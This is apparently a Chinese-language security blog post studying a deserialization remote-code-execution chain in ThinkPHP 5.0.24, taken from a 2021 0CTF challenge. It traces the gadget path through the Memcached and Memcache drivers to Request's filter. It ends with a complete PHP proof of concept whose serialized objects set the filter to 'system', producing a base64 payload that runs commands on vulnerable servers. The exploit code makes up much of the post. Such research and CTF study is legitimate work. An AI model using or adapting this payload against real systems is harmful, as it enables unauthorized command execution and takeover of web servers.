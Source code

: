 # Thinkphp5.0.24 反序列化rce链学习

这个链子是出现在9月份的0CTF中，一直没来得及学习，今天晚上抽出时间来看一下这个链子。

之前的5.0.x版本的反序列化链是写文件getshell，需要有一个可写的目录才行，而这条新链子不需要写文件，直接可以rce。





# 分析

整个链子的前部分后后部分都是老套路了，只是中间的部分稍微改了一下。

链子的前部分和老链子一模一样：https://blog.csdn.net/rfrder/article/details/114644844、

在运行到`thinkphp/library/think/session/driver/Memcached.php`的`write()`方法的时候：

```php
    public function write($sessID, $sessData)
    {
        return $this->handler->set($this->config['session_name'] . $sessID, $sessData, $this->config['expire']);
    }
```

这里的`$this->handler`用的是另外的一个类：`thinkphp/library/think/cache/driver/Memcache`的`set`方法：

```php
    public function set($name, $value, $expire = null)
    {
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        if ($expire instanceof \DateTime) {
            $expire = $expire->getTimestamp() - time();
        }

        if ($this->tag && !$this->has($name)) { 
            $first = true;
        }
        $key = $this->getCacheKey($name);
        if ($this->handler->set($key, $value, 0, $expire)) {
            isset($first) && $this->setTagItem($key);
            return true;
        }
        return false;
    }
```

在`if ($this->tag && !$this->has($name)) { `中进入`has`方法：

```php
    public function has($name)
    {
        $key = $this->getCacheKey($name);
        return false !== $this->handler->get($key);
    }
```

`getCacheKey()`则是进行一个拼接的操作：`return $this->options['prefix'] . $name;`，全都可控，然后调用`$this->handler->get($key);`。如果`handler`是`Request`类的话，接下来肯定都不用再说了，tp最最最熟悉的一个类的，rce的起源。



```php
    public function get($name = '', $default = null, $filter = '')
    {
        if (empty($this->get)) {
            $this->get = $_GET;
        }
        if (is_array($name)) {
            $this->param      = [];
            $this->mergeParam = false;
            return $this->get = array_merge($this->get, $name);
        }
        return $this->input($this->get, $name, $default, $filter);
    }
```

控一下`$this->get`，之后就是最最最熟悉的input方法了，在里面调用`$this->filterValue($data, $name, $filter);`实现rce，就不再提了。



具体的细节自己操作研究一下叭，在老链的基础上改出的POC如下：

```php
<?php
namespace think\process\pipes{

    use think\model\Pivot;

    class Windows{
        private $files = [];
        public function __construct()
        {
            $this->files[]=new Pivot();
        }
    }
}
namespace think{

    use think\console\Output;
    use think\model\relation\HasOne;

    abstract class Model{
        protected $append = [];
        protected $error;
        protected $parent;
        public function __construct()
        {
            $this->append[]="getError";
            $this->error=new HasOne();
            $this->parent=new Output();
        }
    }
}
namespace think\model\relation{

    use think\db\Query;

    class HasOne{
        protected $selfRelation;
        protected $query;
        protected $bindAttr = [];
        public function __construct()
        {
            $this->selfRelation=false;
            $this->query=new Query();
            $this->bindAttr=array(
                '123'=>"feng"
            );
        }

    }
}
namespace think\db{

    use think\console\Output;

    class Query{
        protected $model;
        public function __construct()
        {
            $this->model=new Output();
        }
    }
}
namespace think\console{

    use think\session\driver\Memcached;

    class Output{
        private $handle;
        protected $styles = [
            'info',
            'error',
            'comment',
            'question',
            'highlight',
            'warning',
            "getAttr"
        ];
        public function __construct()
        {
            $this->handle=new Memcached();
        }
    }
}
namespace think\session\driver{


    use think\cache\driver\Memcache;

    class Memcached{
        protected $handler;
        protected $config  = [
            'host'         => '127.0.0.1', // memcache主机
            'port'         => 11211, // memcache端口
            'expire'       => 3600, // session有效期
            'timeout'      => 0, // 连接超时时间（单位：毫秒）
            'session_name' => '', // memcache key前缀
            'username'     => '', //账号
            'password'     => '', //密码
        ];
        public function __construct()
        {
            $this->handler=new Memcache();
        }
    }
}
namespace think\cache\driver{


    use think\Request;

    class Memcache{
        protected $options = [
            'prefix'=>'feng/'
        ];
        protected $tag="feng";
        protected $handler ;
        public function __construct(){
            $this->handler = new Request();
        }

    }
}
namespace think{
    class Request{
        protected $get = array(
            "feng" =>'dir'
        );
        protected $filter = 'system';
    }
}
namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }
}

namespace{
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
}
```

![image-20211025200531099](Thinkphp5.0.24-反序列化rce链学习.assets/image-20211025200531099.png)



# 参考链接

[https://igml.top/2021/09/28/2021-0CTF-FINAL/](https://igml.top/2021/09/28/2021-0CTF-FINAL/)

